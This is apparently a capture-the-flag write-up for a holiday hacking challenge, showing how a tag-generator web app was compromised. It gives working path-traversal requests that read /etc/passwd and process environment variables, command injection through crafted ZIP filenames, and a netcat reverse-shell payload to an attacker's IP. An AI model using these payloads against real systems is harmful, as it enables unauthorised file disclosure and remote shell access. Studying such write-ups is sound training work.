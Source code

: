 # Objective 8: Broken Tag Generator
Location: Wrapping Room

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Approach 1: Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value of the environment variable can be obtained like this:
```
curl https://tag-generator.kringlecastle.com/image?id=../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Approach 2: Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through the above path traversal (the full path of `app.rb` is displayed in the application's error messages):
```
curl https://tag-generator.kringlecastle.com/image?id=../../app/lib/app.rb --output app.rb
```
The application code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:*$ touch \'\;env\>joergen\;\'.jpg
jsw@io:*$ zip joergen.zip \'\;env\>joergen\;\'.jpg 
  adding: ';env>joergen;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
[..]
```

## Approach 3: Full Interactive Remote Shell
**Option 1:**
Create a ZIP file including an empty jpg file:
```
touch joergen.jpg
zip joergen.zip joergen.jpg
```
Modify the contained filename to one with the shell command for the reverse shell (filename needs to end with an image extention as the application checks for that):
```
printf "@ joergen.jpg\n@=';nc <your IP address> 4444 -e \`which bash\`;'.jpg\n" | zipnote -w joergen.zip
```

**Option 2:**
Create the tailored filename directly:
```
touch \'\;nc\ <your IP address>\ 4444\ -e\ \`which\ bash\`\;\'.jpg
zip joergen.zip \'\;nc\ <your IP address>\ 4444\ -e\ \`which\ bash\`\;\'.jpg
```

**Common part:**
Start the reverse shell listener on your local device:
```
nc -lnvp 4444
```
Get it started:
```
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
Now you have in the reverse shell listener an interactive shell as user `app`.
The user `app` has write access to `/tmp` and `/home/app`.
In addition the user has write access to `/usr/local/bundle`, where the web server is located.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTMzMDQ0NTA1OCwtNjAzNTQ5MTU0LC0xOT
I2ODE3OTI0LDIxMjU1OTkwMzYsMTQ0MDA5NzA4MywtOTM1ODEz
Mjg4LC02MTM0NDk2NTYsLTEwNTIxNjM2MTcsLTE3NjM1NDEzNT
UsMTYwNzM0ODUxNCwtODIzMDUwODYxLDEyOTM3MjA0MzksMTM5
NTc5NDgyNCwtMTU5OTI1NDQxNSwtNjE5Mjk3NDExLC01NzY2MT
AwNzUsMjEwNzUyOTg0Niw5MjIxNDQzNSwtMzk4NDkxNDYxLDEx
NTE1NTY4OTZdfQ==
-->